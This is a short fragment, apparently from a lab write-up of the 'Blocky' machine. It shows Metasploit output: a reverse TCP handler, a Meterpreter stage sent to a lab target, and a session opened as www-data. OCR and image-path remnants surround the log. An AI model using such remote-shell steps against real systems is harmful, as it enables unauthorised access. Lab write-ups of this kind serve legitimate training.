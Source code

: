 ![](Maszyny/Linux/Blocky/Pasted%20image%2020210813225356.png)

[*] Started reverse TCP handler on 10.10.14.19:9001
[*] Sending stage (39282 bytes) to 10.10.10.37
[*] Meterpreter session 1 opened (10.10.14.19:9001 → 10.10.10.37:36004) at 2021-08-13 22:53:21 +0200
meterpreter > getuid
Server username: www-data (33)
meterpreter >
Server Not Found - Mozilla Firefox
